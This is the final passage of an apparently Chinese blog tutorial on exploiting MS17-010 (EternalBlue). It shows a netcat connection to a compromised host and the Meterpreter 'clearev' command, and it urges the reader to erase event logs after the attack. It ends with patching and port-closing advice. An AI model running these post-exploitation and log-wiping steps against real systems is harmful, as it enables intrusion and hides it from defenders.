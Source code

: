 ```
等等一段时间，等目标主机重启并登录之后，便会出现蓝色型号。
```

![img](https://img-blog.csdnimg.cn/img_convert/a3cf3ffe7f13c799623134b2d2ec329c.png)

### 2.使用瑞士军刀 NETCAT-NC进行连接

```
nc -v 192.168.109.130 443
```

![img](https://img-blog.csdnimg.cn/img_convert/5287bb4b22d0f0df602cbb86c4ab570e.png)

### 十二、抹除事件日志

```
meterpreter > clearev
```

```
因为我们的所有操作都会被记录在目标系统的日志文件之中所以在完成攻击操作之后，千万别忘了抹除事件日志。
```

![img](https://img-blog.csdnimg.cn/img_convert/ddf07e831021ea054a8590c6877c431a.png)

# 预防方法

1. 为计算机安装最新的安全补丁：[MS17-010补丁](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2017/ms17-010?redirectedfrom=MSDN)
2. 及时备份，一定要离线备份重要文件
3. 开启防火墙
4. 关闭445、135、137、138、139端口，关闭网络共享。
